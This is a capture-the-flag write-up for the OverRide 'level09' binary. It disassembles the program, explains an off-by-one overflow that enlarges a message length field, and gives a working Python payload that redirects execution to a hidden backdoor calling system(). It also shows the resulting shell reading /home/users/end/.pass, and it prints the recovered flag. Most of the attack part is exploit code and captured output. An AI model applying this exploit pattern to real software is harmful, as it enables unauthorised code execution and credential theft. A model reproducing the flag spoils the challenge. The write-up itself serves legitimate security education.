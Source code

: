 # **Level09**

## **Binary Analysis**

When executed, the program displays a welcome message and handles user input through the handle_msg() function. It uses a structure to store a username (up to 40 characters) and a message (up to 140 characters). The program first prompts the user to enter a username using the set_username() function, and then asks for a message via the set_msg() function. There is also an unused secret_backdoor() function that can read a command from the user and execute it, but this function is never called during the normal program flow.

**main function:**
```bash
0x0000000000000aa8 <+0>:  push   %rbp
0x0000000000000aac <+4>:  lea    0x15d(%rip),%rdi      # 0xc10
0x0000000000000ab3 <+11>: callq  0x730 <puts@plt>
0x0000000000000ab8 <+16>: callq  0x8c0 <handle_msg>
```
Main simply displays a message and calls handle_msg.

**handle_msg key parts:**
```bash
# handle_msg function - structure layout
0x00000000000008d2 <+18>: add    $0x8c,%rax         # 0x8c (140) is offset to username field
0x00000000000008ff <+63>: movl   $0x8c,-0xc(%rbp)   # Setting len field to 0x8c (140)
0x0000000000000910 <+80>: callq  0x9cd <set_username>
0x000000000000091f <+95>: callq  0x932 <set_msg>

# set_username - accessing username field
0x0000000000000a5f <+146>: mov %cl,0x8c(%rdx,%rax,1) # Writing to username at offset 0x8c (140)

# set_msg - accessing len field 
0x00000000000009a9 <+119>: mov 0xb4(%rax),%eax      # Reading len field at offset 0xb4 (180)
                                                     # 180-140=40, so len is 40 bytes after username
```
**set_username key part:**
```bash
0x0000000000000a5f <+146>: mov  %cl,0x8c(%rdx,%rax,1) # Writes to username starting at offset 140
0x0000000000000a6a <+157>: cmpl $0x28,-0x4(%rbp)      # Checks if i > 40 (0x28)
```
This shows username is written to offset 140 and loop continues until i > 40.

**set_msg key part:**
```bash
0x00000000000009a9 <+119>: mov  0xb4(%rax),%eax       # Loads len field (at offset 180 = 0xb4)
0x00000000000009c6 <+148>: callq 0x720 <strncpy@plt>   # Copies input using the length
```
Uses the len value at offset 0xb4 (180) to control strncpy.

**secret_backdoor function:**
```bash
0x00000000000008ad <+33>: callq 0x770 <fgets@plt>
0x00000000000008b9 <+45>: callq 0x740 <system@plt>
```

## **Vulnerability**

The username buffer is 40 bytes long, and the length field is located at offset 40.
A buffer overflow can occur, allowing 1 byte to be written beyond the username buffer, potentially modifying the length field.
This modified length allows writing beyond the bounds of the message buffer, resulting in a second overflow.
As a result, it is possible to overwrite the return address, which could lead to executing the secret_backdoor function.

## **Exploit**

**Exploit Structure**

First thing we should do is get the address of secret_backdoor because gdb only gives us the offset from the program's entry (PIE enabled).

we can easily achieve this by setting up a breakpoint at secret_backdoor
(since ASLR is disabled the program entry is always the same even if PIE is enabled)

```bash
(gdb) b secret_backdoor 
Breakpoint 2 at 0x555555554890
```

Stage 1: Username overflow

```bash
"A" * 40       # Fill username buffer
"\xff"         # Overwrite length byte to maximum
"\n"           # Username input terminator
```
Stage 2: Message overflow

```bash
"B" * 200      # Padding to reach return address
"\x8c\x48\x55\x55\x55\x55\x00\x00"  # secret_backdoor address
```

**Final Exploit**

```bash
(python -c 'print "A"*40 + "\xff" + "\n" + "B"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat) | ./level09
```

**Exploit Execution**

```bash
level09@OverRide:~$ (python -c 'print "A"*40 + "\xff" + "\n" + "B"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

**How It Works**

1. **First Stage (Username)**:
    - Fill username buffer with 40 'A's
    - Overflow one byte with \xff to modify message length
    - This allows writing beyond normal message bounds
2. **Second Stage (Message)**:
    - 200 bytes of 'B's as padding
    - Place secret_backdoor address (0x55555555488c)
    - When function returns, it jumps to secret_backdoor
3. **Command Execution**:
    - secret_backdoor function executes
    - We can input shell commands
    - Read the flag file

## **Flag**

```
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

```
